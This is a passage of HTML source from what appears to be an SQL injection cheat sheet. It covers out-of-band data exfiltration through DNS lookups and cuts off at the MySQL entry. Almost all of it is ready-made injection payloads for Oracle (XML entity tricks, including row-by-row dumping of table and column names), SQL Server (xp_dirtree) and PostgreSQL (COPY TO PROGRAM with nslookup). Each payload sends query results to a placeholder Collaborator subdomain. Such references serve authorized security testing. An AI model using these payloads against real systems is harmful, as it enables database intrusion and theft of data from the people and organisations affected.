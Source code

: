 <h2>DNS lookup with data exfiltration</h2>
<p>
    You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use <a href="/burp/documentation/desktop/tools/collaborator">Burp Collaborator</a> to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
</p>
<table>
    <tr>
        <th>
            Oracle
        </th>
        <td>
            <code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code><br />
            <br />
            Exfiltrate Tables Name by Row<br />
            <code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://'||(SELECT result_string FROM (SELECT REGEXP_REPLACE(table_name, '[^a-zA-Z0-9\.]', '') AS result_string, ROWNUM rn FROM all_tables)WHERE rn = ROW-NUMBER)||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code><br />
            <br />
            Exfiltrate Columns by Row<br />
            <code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://'||(SELECT result_string FROM (SELECT REGEXP_REPLACE(column_name, '[^a-zA-Z0-9\.]', '') AS result_string, ROWNUM rn FROM all_tab_columns WHERE table_name='USERS') WHERE rn = ROW-NUMBER)||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code>
        </td>
    </tr>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>create OR replace function f() returns void as $$ <br />
            declare c text; <br />
            declare p text; <br />
            begin <br />
            SELECT into p (SELECT YOUR-QUERY-HERE); <br />
            c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN'''; <br />
            execute c; <br />
            END; <br />
            $$ language plpgsql security definer; <br />
            SELECT f();</code><br/>
            <br/>
            <code>SELECT result_string FROM (SELECT REGEXP_REPLACE(table_name, '[^a-zA-Z0-9\.]', '', 'g') AS result_string, ROW_NUMBER() OVER (ORDER BY table_name) AS rn FROM information_schema.tables WHERE table_schema = 'public') AS sub WHERE rn = 3;</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL